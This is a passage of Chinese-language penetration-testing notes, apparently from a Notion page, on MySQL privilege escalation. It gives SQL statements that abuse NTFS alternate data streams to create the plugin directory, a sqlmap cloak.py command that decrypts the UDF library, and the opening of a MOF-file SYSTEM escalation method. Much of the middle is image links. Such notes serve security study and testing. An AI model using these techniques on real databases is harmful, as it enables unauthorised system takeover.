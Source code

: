 插件目录默认是不存在的，需要我们手动创建，当时sql用户往往并不具备创建文件夹的权限，故在windows系统下，可以通过ads备份文档流的方式绕过。

```sql
select @@basedir; //查找到mysql的目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib::$INDEX_ALLOCATION'; //利用NTFS ADS创建lib目录
select 'It is dll' into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.1\\lib\\plugin::$INDEX_ALLOCATION';//利用NTFS ADS创建plugin目录
```

**注意:**

sqlmap中的四个动态链接库文件是加过密的，需要在/sqlmap/extra/cloak目录下执行下面命令才能生效。

`python .\cloak.py -d -i ..\..\data\udf\mysql\linux\64\lib_mysqludf_sys.so_ -o linux_udf_64.so`

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%205.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%205.png

**复制so文件到mysql插件目录**

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%206.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%206.png

**在ida中查看so文件中的函数**

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%207.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%207.png

**在mysql中导入动态链接库中的函数**

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%208.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%208.png

**测试该函数**

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%209.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%209.png

**测试结果**

![](https://www.notion.so/sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%2010.png)

sql%E6%B3%A8%E5%85%A5%20629f306f168c40bcadaf968bb14be760/Untitled%2010.png

## MOF提权

仅限windows 和windows server2003以下

`c:\windows\system32\wbem\mof\nullevt.mof` 每隔一分钟就会以System身份执行一次，于是我们想办法将这个文件替换掉成我们想要的代码就ok了。那么要首先提权，我们就必须要满足以下的条件

首先我么们已经获取了以root权限运行的sqlshell，root用户读该目录具有写的权限，apache的secure-file-priv处于没有对访问目录做限制。
